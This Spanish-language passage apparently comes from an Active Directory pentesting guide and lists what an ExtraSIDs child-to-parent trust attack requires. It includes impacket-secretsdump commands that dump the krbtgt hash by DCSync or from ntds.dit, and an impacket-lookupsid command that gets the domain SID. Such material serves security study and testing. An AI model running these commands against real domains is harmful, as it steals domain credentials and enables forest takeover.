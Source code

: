 
----

##### Ejemplo 2 

![SameForestTrust simetrico](image-1.png)

## Requisitos

Para ejecutar el ataque ExtraSIDs, necesitas obtener los siguientes elementos:

1. **Clave AES256 o Hash NTLM del usuario `krbtgt` del dominio hijo**  
   - **Cómo obtenerlo**:  
     - Usa `impacket-secretsdump` para realizar un **DCSync**:  
       ```bash
       impacket-secretsdump -just-dc-user krbtgt <DOMINIO_HIJO>/<USUARIO>@<IP_DC_HIJO>
       ```  
     - Extrae el archivo `ntds.dit` del controlador de dominio hijo y procesa con:  
       ```bash
       impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
       ```

2. **SID del dominio hijo**  
   - **Cómo obtenerlo**:  
     - Usa `impacket-lookupsid`:  
       ```bash
       impacket-lookupsid <DOMINIO_HIJO>/<USUARIO>@<IP_DC_HIJO> | grep "Domain SID"
       ```  
     - O extrae el SID desde `ntds.dit`.

3. **Nombre del usuario objetivo en el dominio hijo**  
   - Ejemplo: `Administrator`.

4. **FQDN del dominio hijo**  
   - Ejemplo: `sub.poseidon.yzx`.

